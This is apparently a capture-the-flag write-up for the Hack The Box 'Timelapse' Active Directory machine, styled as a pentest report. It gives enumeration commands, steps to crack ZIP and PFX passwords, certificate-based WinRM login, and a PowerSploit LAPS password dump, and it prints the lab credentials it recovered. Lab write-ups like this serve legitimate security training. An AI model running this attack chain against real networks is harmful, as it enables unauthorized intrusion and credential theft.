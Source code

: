 # Timelapse Machine

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command ```sudo nmap -Pn -p- --min-rate 1000 -v timelapse.htb```

![image](images/Timelapse/Imagen1.png)

Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: ```sudo nmap -sS -sV -O -p53,88,135,139,389,445,464,593,636,3268,3269,5986,9389,49673,49674,64088 --min-rate 1000 -oN timelapseServiceVersions timelapse.htb```


![image](images/Timelapse/Imagen2.png)

### DNS Enumeration
As port 53 is open, I will try to enumerate subdomains and DNS related information.
Using dig tool I try to recover any entry with ```dig any timelapse.htb @10.10.11.152```

![image](images/Timelapse/Imagen3.png)

As it is shown on the picture, a new subdomain appears (dc01.timelapse.htb) which seems to be an Active Directory Domain Controller.

### LDAP Enumeration

Using python console, I will try to manually obtain LDAP useful information as the naming con-text. 

```

$$ server = ldap3.Server('10.10.11.152', get_info = ldap3.ALL, port = 389, use_ssl = False)      
$$ connection = ldap3.Connection(server)      
$$ connection.bind()
>>True                                                                                                                
$$ server.info

```

![image](images/Timelapse/Imagen4.png)

![image](images/Timelapse/Imagen5.png)

![image](images/Timelapse/Imagen6.png)

As intended, naming context was obtained being the default naming context: “DC=timelapse, DC=htb”. However, naming context is not the only piece of information recovered. It was also known the server time (useful for requesting Kerberos Tickets), and the LDAP name of the Domain Controller ```CN=DC01, CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb```

### SMB Enumeration

“Crackmapexec” tool will allow to check whether there are publicly accessible shares or aren’t. With this goal, command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' –shares``` will show (if possible) shared folders and which permissions does “test” user have on each one (during the tests it was learnt that null sessions are also available on this machine). 

![image](images/Timelapse/Imagen7.png)

As seen in the previous picture, an interesting share called “Share” has been listed. User test has read access in this share.
Next step is to try and spider the share using as pattern “.” This way, almost every file will be listed. In order to do this command ```crackmapexec smb timelapse.htb -d timelapse.htb -u 'test' -p '' --spider Shares --pattern . ```

![image](images/Timelapse/Imagen8.png)

Interesting files have appeared. In order to retrieve the files and have a better interaction with the target SMB, “smbclient” tool will be used. As null sessions are allowed, command used will be ```smbclient \\\\10.10.11.152\\Shares```

![image](images/Timelapse/Imagen9.png)

To download everything easier recurse mode is activated using “recurse” smb command. After that both folders are downloaded using ```mget <folder-name>” command```

![image](images/Timelapse/Imagen10.png)

Inspecting the recently downloaded files, one of them stands out because of the name “winrm_backup.zip” and because it contains a “.PFX” certificate file. When trying to unzip it, it is learnt that it is password-protected. To break the protection next steps were followed:

1. Extract the hash of the password using ```zip2john winrm*```

2. Export the hash to a file called “hash.txt” (only the string between $pkzip$ and $/pkzip$ as it is the format that hashcat uses).

3. Perform dictionary attack using hashcat with command ```.\hashcat -m 17200 -a 0 hash.txt rockyou.txt```

![image](images/Timelapse/Imagen11.png)

![image](images/Timelapse/Imagen12.png)

As seen in the picture, ZIP password was recovered, and it is “supremelegacy”. 

After extracting the file inside the ZIP “legacy_dev_auth.pfx” it is known that it is also password-protected.

![image](images/Timelapse/Imagen13.png)

## Initial Access - Insecure Credentials

**Vulnerability Explanation**: Among the files found on the publicly accessible SMB shares, a password-protected ZIP file was found containing an also password-protected “.PFX” certificate file. Both passwords were found with a dictionary and performing a dictionary attack.

**Vulnerability Fix**: Avoid using easy passwords.

**Severity**: Critical

**Steps to reproduce the attack**: 

1.	Donwload the pfx file password cracking from github “https://github.com/crackpkcs12/crackpkcs12”

2.	Launch the dictionary attack using ```crackpkcs12 -d <dictionary-file> <pfx-file> -t <num-ber-of-threads>```

![image](images/Timelapse/Imagen14.png)

3.	Using the password, extract the private key file and certificate from the pfx file using following two commands:

```

openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.cert.pem -clcerts -nokeys
openssl pkcs12 -in ../lega*pfx -out timelapse-legacy.key.pem -nocerts -nodes
	
```

![image](images/Timelapse/Imagen15.png)

4.	Using the recently obtained files, authenticate using ```evil-winrm -i 10.10.11.152 -c Dev/certs/timelapse-legacy.cert.pem -k Dev/certs/timelapse-legacy.key.pem -u legacyy -S```

![image](images/Timelapse/Imagen16.pnge)

5.	Grab “C.\Users\Legacyy\Desktop\User.txt”

## Post-Exploitation

Once logged in as “legacyy”, exploring the command line history file ```$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt``` cleartext credentials are found for user “svc_deploy”.

![image](images/Timelapse/Imagen17.png)

Using those credentials ```Svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV```, it is possible to log in as “svc_deploy” through winrm.

![image](images/Timelapse/Imagen18.png)

## Privilege Escalation - LAPS_Reader Group

**Vulnerability Explanation**: after logging in as svc_deploy with recently found cleartext credentials, it is found that this user is a member of the LAPS_reader group. Members of this group are allowed to access the Local Administrator password from the “ms-mcs-admpwd” attribute of computer’s domain object.

**Vulnerability Fix**: securely store credentials.

**Severity**: Critical

**Steps to reproduce the attack**: after logging in as a “LAPS_reader” group member, using cmdlet ```get-domaincomputer``` from “PowerSploit.ps1” (https://github.com/PowerShellMafia/PowerSploit) extract the ms-mcs-admpwd with the following command ```get-domaincomputer | where-object { $_.’ms-mcs-admpwd’ -ne $null } | select-object ms-mcs-admpwd```

![image](images/Timelapse/Imagen19.png)

As shown in the previous picture, credentials are recovered ```Yln0l#3M+,705uQP9g(nSq8+```

After that, login as Administrator and grab the flag.

![image](images/Timelapse/Imagen20.png)












